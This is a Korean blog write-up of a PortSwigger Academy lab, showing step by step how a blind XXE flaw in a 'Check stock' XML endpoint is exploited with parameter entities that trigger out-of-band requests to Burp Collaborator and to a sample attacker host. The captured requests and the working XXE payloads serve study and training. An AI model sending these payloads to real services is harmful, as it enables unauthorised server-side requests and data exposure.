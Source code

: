 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction via XML parameter entities"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- HTTP 응답으로 에러 발생등의 결과는 알 수 없는 것 같다. 
- 그리고 일반적인 external entities 가 포함된 요청은 블록하고 있다고 한다. 
- 파라메터 엔터티를 통해 문제 서버의 XML 파서가 외부도메인에 대해 DNS쿼리를 질의하도록 만들면 된다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}에서 알 수 있듯이, 디폴트 Burp Collaborator 서버의 도메인 `*.burpcollaborator.net` 또는  `*.oastify.com` 를 사용한다. 

```
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```http
POST /product/stock HTTP/1.1
Host: 0aa30080038a706fc050bdf600870025.web-security-academy.net
Cookie: session=K72hbA7QeOP5dlNcdWpw31bGKKqWACeB
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa30080038a706fc050bdf600870025.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa30080038a706fc050bdf600870025.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

568
```

## 1차 시도 
다음과 같이 `xxetest.burpcollaborator.net` 에 대한 요청을 보내는 페이로드를 사용해 봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

호오... 엔터티는 보안 이유상 사용하지 못하도록 되어 있다고 한다.   

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

문제 설명에 따르면 External 엔터티는 사용하지 못하지만 Parameter 엔터티라고 하는 것은 사용가능한 것 같다. Parameter 엔터티를 어떻게 사용하는지 알아보자.  

Burp Academy의 [Blind XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind) 에 따르면 `%` 를 사용해서 Parameter 엔터티의 선언 및 사용을 할 수 있다고 한다.  예를 들면 다음과 같은 식이다. 
- 변수명 앞에 `%`를 붙인다. 
- 참조할 때도 `&`가 아니라 `%`로 참조한다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## 2차 시도 
다음과 같이 Parameter 엔터티를 선언하고 참조하도록 바꿔보았다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> ] >
<stockCheck>
	<productId>%xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

잘못된 product ID라고 한다. Parameter 엔터티를 사용해서 XXE가 가능한 것 같다. 조금 정답에 근접한 것 같다. productID를 `%xxe;` 로 참조하는 부분을 바꿔보자. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 20

"Invalid product ID"
```

## 3차 시도 
다시 한번 샘플 페이로드를 살펴 보자.   
`%xxe;` 참조가 `<!DOCTYPE>` 을 정의하는 엘레먼트에 들어가 있는 것을 알 수 있다. 

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

페이로드를 다음과 같이 변경했다. 

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> %xxe;] >
<stockCheck>
	<productId>2</productId>
	<storeId>1</storeId>
</stockCheck>
```

XML 파싱 에러가 발생했다는 응답이 돌아온다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

![Blind XXE Repater](/images/burp-academy-xxe-4-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다! 

![Blind XXE 성공](/images/burp-academy-xxe-4-success.png)


